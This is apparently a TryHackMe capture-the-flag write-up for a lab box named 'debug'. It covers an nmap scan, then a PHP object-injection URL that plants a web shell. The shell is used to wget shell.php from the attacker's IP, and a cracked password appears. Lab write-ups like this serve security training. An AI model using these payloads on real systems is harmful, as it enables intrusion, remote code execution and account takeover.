 # #1 Introduction
<img width="650" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/01ce8d44-bffa-4cc1-8286-d1565202ffaa">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx debug.thm
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- debug.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

http://debug.thm/index.php?debug=O:10:%22FormSubmit%22:2:{s:9:%22form_file%22;s:16:%22backup/test2.php%22;s:7:%22message%22;s:27:%22%3C?php%20system($_GET[%22cmd%22]);%22;}
http://debug.thm/backup/test2.php?cmd=wget%20http://10.8.72.209:8000/shell.php
http://debug.thm/backup/shell.php

jamaica          (james)

<img width="1222" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/c969f1e0-2854-4741-9b95-c7df0798a8bc">
